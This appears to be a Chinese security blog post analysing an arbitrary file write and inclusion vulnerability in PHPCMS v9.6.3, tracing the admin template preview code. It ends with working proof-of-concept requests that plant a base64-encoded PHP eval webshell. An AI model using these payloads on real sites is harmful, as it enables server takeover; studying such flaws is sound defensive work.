




# PHPCMSv9.6.3 文件包含漏洞分析


PHPCMSV9.6.3 文件包含漏洞分析
# 代码审计
文件包含常出现在 include()、require()、include_once()、require_once() 等，审计时可以直接通过正则的方式追踪危险段
phpcms v9.6.3 的任意文件包含出现在 phpcms/modules/block/block_admin.php 267行
```
include $filepath;
```
分析 $filepath 变量，发现代码中不仅做了 include 包含文件，还在这之前先创建文件并写入内容，且内容可控
```
public function public_view() {
	if ($data['type'] == 1) {
	} elseif ($data['type'] == 2) {
		$template = isset($_POST['template']) && trim($_POST['template']) ? trim($_POST['template']) : '';
		//$template 由用户输入，可控
		...
		$str = $tpl->template_parse(new_stripslashes($template));
		//对 $template 进行过滤
		$filepath = CACHE_PATH.'caches_template'.DIRECTORY_SEPARATOR.'block'.DIRECTORY_SEPARATOR.'tmp_'.$id.'.php';
		//定义文件路径
		$dir = dirname($filepath);
		if(!is_dir($dir)) {
			@mkdir($dir, 0777, true);
			//创建$dir
		}
		if (@file_put_contents($filepath,$str)) {  //文件写入
			 ob_start();
			 include $filepath;
			 //包含文件
			 $html = ob_get_contents();
			 ob_clean();
			 @unlink($filepath);
		}
```
$id 在类方法开头会强制转为 int 类型，文件路径是不可控，但对漏洞不影响；$template 完全可控的，在 if 判断中进行文件写入，写入成功则包含文件。看看对 $template 过滤
global.func.php::new_stripslaches() 对转义后的字符去除转义，这根本不是过滤
```
//phpcms/libs/functions/global.func.php
function new_stripslashes($string) {  
    if(!is_array($string)) return stripslashes($string);  
    foreach($string as $key => $val) $string[$key] = new_stripslashes($val);  
    return $string;  
}
```
以及 template_parse()，简单的正则替换，为指定格式的代码换成 <?php xx?> 的形式
```
//phpcms/libs/classes/template_cache.class.php
public function template_parse($str) {  
    $str = preg_replace ( "/\{template\s+(.+)\}/", "<?php include template(\\1); ?>", $str );  
    $str = preg_replace ( "/\{include\s+(.+)\}/", "<?php include \\1; ?>", $str );  
    $str = preg_replace ( "/\{php\s+(.+)\}/", "<?php \\1?>", $str );  
    $str = preg_replace ( "/\{if\s+(.+?)\}/", "<?php if(\\1) { ?>", $str );  
    $str = preg_replace ( "/\{else\}/", "<?php } else { ?>", $str );  
    $str = preg_replace ( "/\{elseif\s+(.+?)\}/", "<?php } elseif (\\1) { ?>", $str );  
    $str = preg_replace ( "/\{\/if\}/", "<?php } ?>", $str );  
    //for 循环  
    $str = preg_replace("/\{for\s+(.+?)\}/","<?php for(\\1) { ?>",$str);  
    $str = preg_replace("/\{\/for\}/","<?php } ?>",$str);  
    //++ --  
    $str = preg_replace("/\{\+\+(.+?)\}/","<?php ++\\1; ?>",$str);  
    $str = preg_replace("/\{\-\-(.+?)\}/","<?php ++\\1; ?>",$str);  
    $str = preg_replace("/\{(.+?)\+\+\}/","<?php \\1++; ?>",$str);  
    $str = preg_replace("/\{(.+?)\-\-\}/","<?php \\1--; ?>",$str);  
    $str = preg_replace ( "/\{loop\s+(\S+)\s+(\S+)\}/", "<?php \$n=1;if(is_array(\\1)) foreach(\\1 AS \\2) { ?>", $str );  
    $str = preg_replace ( "/\{loop\s+(\S+)\s+(\S+)\s+(\S+)\}/", "<?php \$n=1; if(is_array(\\1)) foreach(\\1 AS \\2 => \\3) { ?>", $str );  
    $str = preg_replace ( "/\{\/loop\}/", "<?php \$n++;}unset(\$n); ?>", $str );  
    $str = preg_replace ( "/\{([a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff:]*\(([^{}]*)\))\}/", "<?php echo \\1;?>", $str );  
    $str = preg_replace ( "/\{\\$([a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff:]*\(([^{}]*)\))\}/", "<?php echo \\1;?>", $str );  
    $str = preg_replace ( "/\{(\\$[a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff]*)\}/", "<?php echo \\1;?>", $str );  
    $str = preg_replace_callback("/\{(\\$[a-zA-Z0-9_\[\]\'\"\$\x7f-\xff]+)\}/s",  array($this, 'addquote'),$str);  
    $str = preg_replace ( "/\{([A-Z_\x7f-\xff][A-Z0-9_\x7f-\xff]*)\}/s", "<?php echo \\1;?>", $str );  
    $str = preg_replace_callback("/\{pc:(\w+)\s+([^}]+)\}/i", array($this, 'pc_tag_callback'), $str);  
    $str = preg_replace_callback("/\{\/pc\}/i", array($this, 'end_pc_tag'), $str);  
    $str = "<?php defined('IN_PHPCMS') or exit('No permission resources.'); ?>" . $str;  
    return $str;  
}
```
这里将 {php.*} 格式替换为 `<?php.*?>` 格式，也就是说即使题目过滤了 `<?` 这里也能直接绕过
```
str = preg_replace ( "/\{php\s+(.+)\}/", "<?php \\1?>", $str );
```
最后将 "<?php defined('IN_PHPCMS') or exit('No permission resources.'); ?>" 拼接进 $str 之前并返回，但这不影响漏洞
```
$str = "<?php defined('IN_PHPCMS') or exit('No permission resources.'); ?>" . $str;  
    return $str; 
```
所以这里任意文件包含完全可行！再看逻辑与权限校验部分
block_admin 构造方法中直接静态调用父类的构造方法，跟进父类看看
```
class block_admin extends admin {
	private $db, $siteid, $priv_db, $history_db, $roleid;
	public function __construct() {
		$this->db = pc_base::load_model('block_model');
		$this->priv_db = pc_base::load_model('block_priv_model');
		$this->history_db = pc_base::load_model('block_history_model');
		$this->roleid = $_SESSION['roleid'];
		$this->siteid = $this->get_siteid();
		parent::__construct();
	}
```
在其父类 admin 构造方法中，做了许多 admin 用户登录校验工作，因此必须先登录到 admin 后台，并获得 pc_hash
```
//phpcms/modules/admin/classes/admin.class.php
public function __construct() {  
    self::check_admin();  //判断用户是否已经登陆
		  =>//admin.class.php 
			final public function check_admin() {
			    // 如果是 admin/index/login 或 admin/index/public_card 这类免登录接口，直接放行
			    if(ROUTE_M =='admin' && ROUTE_C =='index' && in_array(ROUTE_A, array('login', 'public_card'))) {  
			       return true;  
			    } else {  
			       // 检查当前会话是否有用户 ID 和角色 ID
			       $userid = param::get_cookie('userid');
			       if(!isset($_SESSION['userid']) || !isset($_SESSION['roleid']) 
			          || !$_SESSION['userid'] || !$_SESSION['roleid'] 
			          || $userid != $_SESSION['userid']) 
			          // 条件不满足，说明未登录，跳转登录页
			          showmessage(L('admin_login'),'?m=admin&c=index&a=login');  
			    }  
			}

    self::check_priv();  //权限判断
    pc_base::load_app_func('global','admin');  
    if (!module_exists(ROUTE_M)) showmessage(L('module_not_exists'));  
    self::manage_log();  //记录日志
    self::check_ip();  //后台IP禁止判断
    self::lock_screen();  //检查锁屏状态
    self::check_hash(); //检查hash值，验证用户数据安全性  
	     =>
			final private function check_hash() {
			    if(preg_match('/^public_/', ROUTE_A) 
			       || ROUTE_M =='admin' && ROUTE_C =='index' 
			       || in_array(ROUTE_A, array('login'))) {
			       return true;
			    }
			
			    // GET 提交时验证 pc_hash
			    if(isset($_GET['pc_hash']) && $_SESSION['pc_hash'] != '' 
			       && ($_SESSION['pc_hash'] == $_GET['pc_hash'])) {
			       return true;
			    // POST 提交时验证 pc_hash
			    } elseif(isset($_POST['pc_hash']) && $_SESSION['pc_hash'] != '' 
			       && ($_SESSION['pc_hash'] == $_POST['pc_hash'])) {
			       return true;
			    } else {
			       // 验证失败
			       showmessage(L('hash_check_false'),HTTP_REFERER);
			    }
			}

    if(pc_base::load_config('system','admin_url') && $_SERVER["HTTP_HOST"]!= pc_base::load_config('system','admin_url')) {  
       Header("http/1.1 403 Forbidden");  
       exit('No permission resources.');  
    }  
}
```
在 public_view 开头做了一次检测，判断 $id 是否存在，如果不存在则返回 nofound，且查出的数据库数据中 type 需为 2 才能进入 elseif 内部触发漏洞
```
public function public_view() {
	$id = isset($_GET['id']) && intval($_GET['id']) ? intval($_GET['id']) :  exit('0');  
	if (!$data = $this->db->get_one(array('id'=>$id))) {  
	    showmessage(L('nofound'));  
	}  
	if ($data['type'] == 1) {  
	    exit('<script type="text/javascript">parent.showblock('.$id.', \''.str_replace("\r\n", '', $_POST['data']).'\')</script>');  
	} elseif ($data['type'] == 2) {
```
但这个表怎么是空的？也许默认就是为空

在 block_admin 类往上翻一翻，发现了一个 add 类方法，就说默认为空很奇怪，肯定有功能提供添加
```
public function add() {  
    $pos = isset($_GET['pos']) && trim($_GET['pos']) ? trim($_GET['pos']) : showmessage(L('illegal_operation'));  
    if (isset($_POST['dosubmit'])) {  
       $name = isset($_POST['name']) && trim($_POST['name']) ? trim($_POST['name']) : showmessage(L('illegal_operation'), HTTP_REFERER);  
       $type = isset($_POST['type']) && intval($_POST['type']) ? intval($_POST['type']) : 1;  
       //判断名称是否已经存在  
       if ($this->db->get_one(array('name'=>$name))) {  
          showmessage(L('name').L('exists'), HTTP_REFERER);  
       }  
       if ($id = $this->db->insert(array('name'=>$name, 'pos'=>$pos, 'type'=>$type, 'siteid'=>$this->siteid), true)) {  
          ...
       } else {  
       }  
    } else {  
		...
    }  
}
```
insert 追进去就不写了，依照 phpcms 框架数据库操作写法，依次是 block_admin.php -> model.class.php -> db_mysqli.class.php，最后肯定是插入数据
只需要提供 pos、dosubmit、name、type 即可直接添加，其中 type 必须为 2，因为我们要走进 elseif 内部，其他随意不为 false 就行
到这里分析就结束了，这个漏洞简单且危害大，只需要添加一条数据即可利用漏洞，没有任何过滤，同类方法下刚好提供 file_put_contents 和 include 直接文件写入+文件包含一步到位
# 漏洞验证
先往 v9_block 表内添加一条数据
```
/index.php?id=1&m=block&c=block_admin&a=add&XDEBUG_SESSION_START=13013&pc_hash=uWIbNs&pos=1
POST:name=a&type=2&dosubmit=1
```

然后向 block_admin.php::public_view 传参，这个类方法提供的应该是一个预览功能
```
/index.php?id=1&m=block&c=block_admin&a=public_view&XDEBUG_SESSION_START=13013&pc_hash=uWIbNs
POST：template=<?php file_put_contents('L1nJ3.php',base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWzBdKTs/Pg==')); ?>
```

根目录下就出现了写入的文件了



---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/phpcms-v9-6-3-%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/  

